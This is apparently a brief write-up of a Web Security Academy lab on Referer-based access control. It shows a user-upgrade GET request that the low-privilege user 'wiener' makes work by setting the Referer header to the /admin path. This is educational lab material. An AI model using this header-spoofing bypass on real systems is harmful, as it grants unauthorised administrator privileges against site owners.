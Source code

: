 The process to upgrade the user is generated from the admin panel with a GET
request:

![img](media/d5cbc83fa5a0abc2182fb292f1db79d8.png)

But with “wiener” we get an unauthorized error:

![img](media/d4e40ae93e9dff65ca318c8d78a2b4ea.png)

It works chaning the “Referer” header to /admin:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /admin-roles?username=wiener&action=upgrade HTTP/2
...
Referer: https://0afd00fc039e68c881769dfa009b00b8.web-security-academy.net/admin
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
